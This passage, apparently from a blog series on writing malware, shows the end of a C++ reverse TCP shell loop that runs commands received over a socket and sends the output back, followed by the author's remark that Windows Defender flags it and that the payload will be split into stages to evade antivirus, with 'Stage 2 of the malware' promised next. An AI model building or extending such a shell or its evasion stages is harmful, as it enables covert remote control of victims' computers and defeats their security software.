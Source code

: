 ```cpp

		
		std::string cmd_res = run_cmd(buffer.data());

		msg_len = htonl(cmd_res.size());

		send(sock, reinterpret_cast<char*>(&msg_len), sizeof(int), 4);

		send(sock, cmd_res.c_str(), cmd_res.size(), 0);
			
	}
}
```

Here's a video of it working! NOTE: I still have to disable my Windows Defender to run this payload, which is exactly why we need to split it up into stages, any antivirus can identify this as a simple Reverse TCP Shell.


<iframe src="https://github.com/user-attachments/assets/5bbe5e9b-9d63-46a1-918c-c6324b4026b2" width="480" height="270" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>


In the next post I'll begin developing Stage 2 of the malware.
